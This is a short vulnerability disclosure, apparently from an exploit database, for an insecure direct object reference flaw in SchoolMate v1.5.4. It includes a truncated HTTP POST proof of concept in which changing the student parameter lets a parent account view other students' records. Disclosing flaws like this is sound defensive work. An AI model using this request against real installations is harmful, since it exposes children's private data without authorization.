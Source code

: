 # Exploit Title: SchoolMate v1.5.4 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/schoolmate/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SchoolMate
## Version: v1.5.4
## Exploit Description:
## SchoolMate v1.5.4 suffers from IDOR - Broken Access Control Vulnerability allowing attacker parent to look up information of other student who is not his child(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /index.php HTTP/1.1
...

student=1(CHANGE HERE)&page2=5&logout=&page=5
```